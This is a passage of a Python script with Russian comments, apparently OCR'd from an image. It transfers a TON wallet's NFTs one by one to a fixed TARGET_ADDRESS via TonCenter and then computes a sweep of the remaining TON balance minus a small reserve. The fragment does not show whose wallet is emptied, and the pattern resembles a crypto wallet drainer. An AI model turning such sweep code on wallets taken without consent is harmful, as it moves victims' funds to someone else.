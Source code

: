         boc = bytes_to_b64str(query["message"].to_boc(False))
        # Отправляем через TonCenter
        try:
            result = toncenter_send_boc(boc)
            if result.get("ok"):
                log_file.write(f"NFT {nft_address} -> {TARGET_ADDRESS} [OK]\n")
                success_nfts += 1
            else:
                log_file.write(f"NFT {nft_address} -> {TARGET_ADDRESS} [FAIL]: {result}\n")
        except Exception as e:
            # Если произошла ошибка (например,  not enough funds, или API вернул ошибку)
            log_file.write(f"NFT {nft_address} -> {TARGET_ADDRESS} [FAIL]: {e}\n")
            # Прерываем цикл отправки NFT, т.к. вероятно закончились средства
            break

    # 4. Перевод оставшихся TON
    # Получаем баланс
    balance_info = toncenter_run_method(wallet_addr_str, "balance")
    # Если TonCenter не поддерживает getMethod "balance", можно получить через getAccount
    if not balance_info or 'stack' not in balance_info:
        # Альтернатива: запросить getAddressInformation
        info_url = f"{TONCENTER_URL}/getAddressInformation?address={wallet_addr_str}"
        if TONCENTER_API_KEY:
            info_url += f"&api_key={TONCENTER_API_KEY}"
        resp = requests.get(info_url)
        resp.raise_for_status()
        info = resp.json()
        balance_nano = int(info.get("result", {}).get("balance", 0))
    else:
        # В стеке баланс может быть, смотря какой контракт.
        # Попробуем так: обычно баланс возвращается как число (не стандартный get-method, здесь условно)
        balance_nano = int(balance_info["stack"][0][1], 16) if balance_info.get("stack") else 0

    # Рассчитываем сумму для отправки (баланс - 0.01 TON)
    reserve = to_nano(0.01, "ton")
    send_all_amount = balance_nano - reserve if balance_nano > reserve else balance_nano
    if send_all_amount < 0:
        send_all_amount = 0
